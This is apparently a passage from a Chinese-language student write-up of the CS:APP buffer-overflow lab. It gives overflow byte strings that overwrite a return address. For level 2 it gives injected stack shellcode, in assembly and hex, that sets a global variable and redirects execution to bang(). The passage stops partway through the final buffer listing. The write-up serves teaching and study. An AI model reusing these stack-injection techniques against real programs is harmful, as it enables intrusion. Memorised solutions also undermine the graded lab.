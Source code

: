 ![Alt text](bef5b5cccfe5a1a745183f24df65c6b.jpg)
使用gdb可以知道此值正是cookie（官方文档诚不我欺！）  
buf：
```
00 00 00 00 00 00 00 00
00 00 00 00 00 00 00 00
00 00 00 00 00 00 00 00
00 00 00 00 00 00 00 00
00 00 00 00 00 00 00 00
00 00 00 00
42 8c 04 08 00 00 00 00
c7 8b b8 3b
```
PASS

### level 2
目标是调用bang()，并且让global_val=cookie  
官方文档告诉了做法：让程序跳到栈的地址上，在栈中注入攻击代码，让程序执行（像attacklab一样）  
使用gdb获得global_val的地址，得到是0x804d100，同时得到cookie值存在0x804d108中  
使用gdb知道栈位置0x556831a8  
攻击代码：
```
mov    $0x3bb88bc7,%eax
mov    $0x804d100,%edi
mov    %eax,(%edi)
mov    $0x8048c9d,%eax
push   %eax
ret
```
将其转为字节码（通过gcc生成.o文件，然后使用objdump转为汇编，就可以看到字节码）：
```
00000000 <.text>:
   0:	b8 c7 8b b8 3b       	mov    $0x3bb88bc7,%eax
   5:	bf 00 d1 04 08       	mov    $0x804d100,%edi
   a:	89 07                	mov    %eax,(%edi)
   c:	b8 9d 8c 04 08       	mov    $0x8048c9d,%eax
  11:	50                   	push   %eax
  12:	c3                   	ret
```
buf：
```
b8 c7 8b b8 3b bf 00 d1
04 08 89 07 b8 9d 8c 04
```